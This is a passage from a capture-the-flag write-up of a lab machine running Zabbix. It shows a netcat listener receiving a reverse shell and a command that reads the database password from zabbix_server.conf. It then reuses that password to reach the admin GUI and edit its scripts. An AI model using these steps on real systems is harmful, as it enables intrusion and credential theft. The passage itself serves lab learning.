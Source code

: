 I get a shell, in the Zabbix container (this one is stable on its own):

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.108.
Ncat: Connection from 10.10.10.108:36370.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
$ hostname
8e6232f363e0

```

#### Container Enumeration

Looking around this container, there isn’t much to be found. The `/home` directory is empty. Web root just has the default Ubuntu page.

If I go check out the Zabbix config, I’ll find something interesting (using two `greps`, the first to remove lines starting with `#`, and the second to remove empty lines:

```

$ cat /etc/zabbix/zabbix_server.conf | grep -Ev "^#" | grep .
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
DebugLevel=0
PidFile=/var/run/zabbix/zabbix_server.pid
DBName=zabbixdb
DBUser=zabbix
DBPassword=f.YMeMd$pTbpY3-449
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000

```

About half way down, there’s a DB password.

#### Admin GUI Access

It turns out that is the same password the admin account uses for the web GUI access. Logging in, I now have access to see and modify scripts under Administration/Scripts:

![1550615230474](https://0xdfimages.gitlab.io/img/1550615230474.png)

If I click on my script, I can modify it:
